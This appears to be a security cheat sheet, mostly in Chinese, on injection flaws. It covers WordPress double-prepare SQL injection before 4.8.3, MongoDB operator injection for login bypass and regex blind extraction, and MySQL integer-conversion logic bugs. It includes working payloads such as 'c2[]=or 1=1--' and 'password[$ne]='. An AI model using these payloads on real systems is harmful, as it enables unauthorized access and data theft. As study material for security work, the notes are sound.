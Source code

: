 # Wordpress Double Prepare Misuse  
Wordpress自己寫了`prepare()`預編譯sql語句然後再`execute()`，有別於PDO下的`prepare()`,`blind()`,`execute()`。這是出現在wordpress4.8.3以前的版本的問題...  
```php
$query = $wpdb->prepare( "SELECT * FROM table WHERE column = %s", $_GET['c1'] );
$wpdb->query( $query );
```  
若我注入`1' or '1'='1`，`prepare()`會用單引號將它包起來置入query語句，並且轉譯單引號。`SELECT * FROM table WHERE column = ' 1\' or \'1\'=\'1 '`，無解...但是如果開發者今天這樣寫的話...  
```php
$query = $wpdb->prepare( "SELECT * FROM table WHERE column1 = %s", $_GET['c1'] );
$query = $wpdb->prepare( $query . " AND column2 = %s", $_GET['c2'] );
$wpdb->query( $query );

// c1=%s&c2[]=or 1=1--&c2[]=a
執行結果
prepare1: SELECT * FROM table WHERE column1 = '%s' AND column2 = %s;
prepare2: SELECT * FROM table WHERE column1 = ' 'or 1=1--' ' AND column2 = 'a';
```  
原因出在prepare()的檢查步驟，我們沒有輸入`'`，而是讓prepare()自己輸入單引號來協助我們閉合...  
在Wordpress4.8.3的版本之後，patch成使用者輸入的`%`會被取代為66bytes的秘密字串：`{xxxxx...xxx}s`  
  
# NoSQL injection
MongoDB parse the data with format of json.  
Therefore, we cannot inject with string, but use `{key:value}` this kind of format to do injection.  
```sql
// The list of regex
$gt: >
$lt: <
$gte: >=
$lte: <=
$ne: not equal
$in: in
$nin: not in
$not:
$or

// expression of query
db.table_name.find({"column_name":value});      // where column = value
db.table_name.find({"column":{$reg:value}});    // where column $reg value
```  
Login first to find other hints
```sql
?username[$ne]=\&password[$ne]=\
```
Blind injection  
```sql
?username=admin&password[$regex]=^a
```  

# Logic Vul  
對sql觀念的誤解很容易讓開發者犯了一些邏輯漏洞，下面做一些收集：  
1. mysql整型  
在mysql裡若字段為整型，`where`語句中的值不為整型時，會先被轉換成整型才進行語句查詢...  
```php
select a from user where id='0a';
select a from user where id='0';
```  
若a col為int型態，id值會由字串轉換為int在進行查詢，因此`id='0a'`的結果和`id='0'`的結果會一樣...  
[遇到一個有趣的邏輯漏洞](https://www.leavesongs.com/PENETRATION/findpwd-funny-logic-vul.html)
